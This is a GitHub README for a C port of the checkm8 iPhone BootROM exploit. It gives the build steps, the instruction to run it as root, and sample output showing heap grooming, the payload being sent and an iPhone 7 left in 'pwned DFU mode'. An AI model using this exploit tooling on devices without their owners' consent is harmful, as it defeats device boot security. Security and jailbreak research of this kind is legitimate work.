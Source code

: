 # checkm8

C version of checkm8 exploit

### Support
This has been tested on an iPhone 7 on a Linux host. Some USB controllers may not work.

### Build
Install libusb and run `make` :
```
λ ~/checkm8(master) » make
gcc -I. -g -Wall -Wextra -c src/checkm8.c -o src/checkm8.o
gcc -I. -g -Wall -Wextra -c src/usbexec.c -o src/usbexec.o
gcc -I. -g -Wall -Wextra -c src/main.c -o src/main.o
gcc src/checkm8.o src/usbexec.o src/main.o -o checkm8 -lusb-1.0
```

### Run
Run checkm8 as root and make sure you are in the root directory of this project. If not, the tool won't find the payloads.

```
λ ~/checkm8(master) » sudo ./checkm8
[i] CPID:8010 CPRV:11 CPFM:03 SCEP:01 BDID:0C ECID:00XXXXXXXXXXXXXX IBFL:3C SRTG:[iBoot-2696.0.0.1.33]
[i] heap grooming
[i] preparing for overwrite
[i] sending overwrite
[i] sending payload
[i] reseting device...
[i] CPID:8010 CPRV:11 CPFM:03 SCEP:01 BDID:0C ECID:00XXXXXXXXXXXXXX IBFL:3C SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[+] device is now in pwned DFU mode
```

### Credits
- axi0mx for checkm8 BootROM exploit
- synackuk for some usbexec stuff
- Gregor Haas : A10 payloads


